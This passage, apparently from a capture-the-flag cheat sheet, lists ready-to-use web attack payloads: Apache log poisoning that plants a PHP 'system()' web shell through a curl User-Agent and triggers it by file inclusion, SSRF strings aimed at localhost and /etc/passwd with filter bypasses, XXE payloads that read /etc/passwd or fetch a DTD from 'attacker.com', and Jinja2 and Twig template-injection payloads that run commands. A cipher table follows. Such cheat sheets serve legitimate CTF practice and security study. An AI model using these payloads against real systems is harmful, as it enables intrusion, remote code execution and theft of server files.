 **Log Poisoning:**
```bash
# Poison Apache logs
curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com
# Then include the log
?page=/var/log/apache2/access.log&cmd=whoami
```

#### 4. Server-Side Request Forgery (SSRF)

**Basic SSRF:**
```
http://127.0.0.1:80/admin
http://localhost:22
file:///etc/passwd
```

**Bypass Filters:**
```
http://0.0.0.0:80
http://127.1:80
http://[::1]:80
```

#### 5. XML External Entity (XXE)

**Basic XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
```

**Blind XXE:**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
```

#### 6. Template Injection (SSTI)

**Jinja2 (Python):**
```python
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

**Twig (PHP):**
```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

---

## 2. Cryptography & Encryption

### Classic Ciphers

| Cipher | Tool/Decryption Method |
|--------|------------------------|
| XOR | CyberChef or manual Python script |
| Atbash | `tr 'A-Za-z' 'Z-Az-a'` |
| Vigenère | `python3 -c "from pycipher import Vigenère; print(Vigenère('KEY').decrypt('CIPHERTEXT'))"` |
| Railfence | dcode.fr or custom decoder |
| Playfair | Online decoder or custom script |

